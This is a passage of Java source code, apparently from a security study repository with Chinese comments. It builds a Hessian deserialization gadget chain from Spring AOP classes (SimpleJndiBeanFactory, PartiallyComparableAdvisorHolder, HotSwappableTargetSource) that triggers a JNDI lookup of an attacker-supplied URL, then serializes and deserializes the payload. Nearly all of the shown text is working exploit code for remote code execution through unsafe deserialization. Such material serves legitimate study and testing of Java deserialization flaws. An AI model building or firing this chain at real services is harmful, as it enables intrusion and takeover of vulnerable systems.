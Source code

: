 ```plain
        // 创建BeanFactoryAspectInstanceFactory
        // 触发SimpleJndiBeanFactory的getType方法
        AspectInstanceFactory beanFactoryAspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFiled(beanFactoryAspectInstanceFactory, "beanFactory", simpleJndiBeanFactory);
        setFiled(beanFactoryAspectInstanceFactory, "name", url);

        // 创建AspectJAroundAdvice
        // 触发BeanFactoryAspectInstanceFactory的getOrder方法
        AbstractAspectJAdvice aspectJAroundAdvice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFiled(aspectJAroundAdvice, "aspectInstanceFactory", beanFactoryAspectInstanceFactory);

        // 创建AspectJPointcutAdvisor
        // 触发AspectJAroundAdvice的getOrder方法
        AspectJPointcutAdvisor aspectJPointcutAdvisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFiled(aspectJPointcutAdvisor, "advice", aspectJAroundAdvice);

        // 创建PartiallyComparableAdvisorHolder
        // 触发AspectJPointcutAdvisor的getOrder方法
        String PartiallyComparableAdvisorHolder = "org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder";
        Class<?> aClass = Class.forName(PartiallyComparableAdvisorHolder);
        Object partially = createWithoutConstructor(aClass);
        setFiled(partially, "advisor", aspectJPointcutAdvisor);

        // 可以不使用HotSwappableTargetSource
        // 创建HotSwappableTargetSource
        // 触发PartiallyComparableAdvisorHolder的toString方法
        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(partially);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(new XString("aaa"));

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/PartiallyComparableAdvisorHolderHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/PartiallyComparableAdvisorHolderHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = getField(o.getClass(), fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
```